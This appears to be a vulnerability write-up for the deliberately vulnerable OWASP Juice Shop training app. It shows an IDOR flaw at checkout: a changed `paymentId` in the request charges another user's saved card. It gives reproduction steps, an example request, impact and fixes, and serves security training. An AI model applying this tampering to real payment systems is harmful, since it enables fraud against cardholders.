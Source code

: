 
# Vulnerability Report: Use Other Users' Card for Payment  
**Category:** A01 – Broken Access Control (IDOR)

---
## Overview
An **IDOR vulnerability** exists in the checkout process of OWASP Juice Shop.  
By modifying the `paymentId` parameter in the checkout request, an attacker can use **another user’s saved payment card** to complete purchases.

---
## Proof of Concept

### Steps to Reproduce
1. Log in as a normal user and add items to the basket.  
2. At checkout, intercept the request using Burp Suite.  
3. Change the `paymentId` to another user’s card ID (e.g., `1`).  
4. Forward the modified request.  
5. The order is processed successfully using the victim’s card.

### Example Request
```http
POST /rest/basket/6/checkout HTTP/1.1
Host: localhost:3000
Authorization: Bearer <valid_token>
Content-Type: application/json
```
```json
{
    "couponData":"bnVsbA==",
    "orderDetails":{
        "paymentId":"1",
        "addressId":"7",
        "deliveryMethodId":"1"
    }
}
```

### Example Outcome
- The attacker’s basket is checked out using the **victim’s saved payment card**.  

---
## Impact
- **Financial fraud:** Attackers can steal money by charging other users’ cards.  
- **Reputation loss:** The platform could face legal and trust issues due to unauthorized charges.  
- **Privilege escalation:** Attackers gain the ability to impersonate and spend on behalf of other users.  

**Severity:** Critical  

---
## Recommendations
1. **Enforce strict ownership checks**: Ensure that the `paymentId` belongs to the authenticated user before processing.  
2. **Do not trust client-supplied identifiers**: Derive payment method and ownership from the session, not user input.  
3. **Add authorization middleware** to validate access to sensitive objects (cards, addresses, orders).  
4. **Enable monitoring and alerts** for suspicious checkout activities, such as repeated failures or mismatched accounts.  

